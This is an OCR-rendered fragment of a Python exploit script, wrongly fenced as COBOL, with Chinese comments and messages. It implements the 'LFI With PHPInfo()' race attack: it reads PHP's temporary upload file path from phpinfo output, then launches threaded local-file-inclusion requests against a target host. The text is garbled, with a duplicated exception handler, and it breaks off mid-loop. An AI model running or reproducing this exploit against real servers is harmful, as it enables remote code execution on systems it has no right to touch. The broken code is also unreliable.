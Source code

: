 ```cobol
def getOffset(host, port, phpinforeq):
    """获取php输出中tmp_name的偏移量"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(phpinforeq.encode())
 
    d = b""
    while True:
        i = s.recv(4096)
        d += i
        if i == b"":
            break
        # detect the final chunk
        if i.endswith(b"0\r\n\r\n"):
            break
    s.close()
    i = d.find(b"[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("在phpinfo输出中未找到php tmp_name")
 
    print("在位置 %i 找到 %s" % (i, d[i:i + 10].decode()))
    # 加一些填充
    return i + 256
 
 
def main():
    print("LFI With PHPInfo()")
    print("-=" * 30)
 
    if len(sys.argv) < 2:
        print("用法：%s 主机 [端口] [线程数]" % sys.argv[0])
        sys.exit(1)
 
    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error as e:
        print("主机名 %s 无效，请确保输入正确的主机名或IP地址。" % sys.argv[1])
        host = socket.gethostbyname(sys.argv[1])
    except socket.error as e:
        print("主机名 %s 无效，请确保输入正确的主机名或IP地址。" % sys.argv[1])
        sys.exit(1)
 
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 80
    numthreads = int(sys.argv[3]) if len(sys.argv) > 3 else 10
 
    phpinforeq, tag, lfireq = setup(host, port)
    offset = getOffset(host, port, phpinforeq)
 
    print("\n[*] 开始进行LFI攻击...")
    threads = []
    e = threading.Event()
    l = threading.Lock()
 
    try:
        for i in range(numthreads):
            t = ThreadWorker(e, l, 100, host, port, phpinforeq, offset, lfireq, tag)
            threads.append(t)
            t.start()
 
        while not e.is_set():
            try:
                e.wait(1)
            except KeyboardInterrupt:
```